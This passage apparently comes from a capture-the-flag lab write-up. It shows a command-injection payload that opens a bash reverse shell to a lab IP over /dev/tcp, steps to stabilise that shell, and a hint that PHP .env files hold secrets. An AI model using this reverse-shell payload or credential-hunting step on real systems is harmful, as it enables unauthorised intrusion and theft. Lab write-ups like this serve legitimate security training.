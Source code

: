 I used this one-liner in my command injection:
```
$(bash -c 'bash -i >& /dev/tcp/10.10.14.33/4000 0>&1')
```
![b](/images/images-twomillion/image_18.png)

Used this command to stabilize the shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Then:
```
- Ctrl + Z
```

```
stty raw -echo;fg
```

```
export TERM=xterm
```

And I got a fully functional shell.

What file is commonly used in PHP applications to store environment variable values?

The *.env file.


![b](/images/images-twomillion/image_19.png)
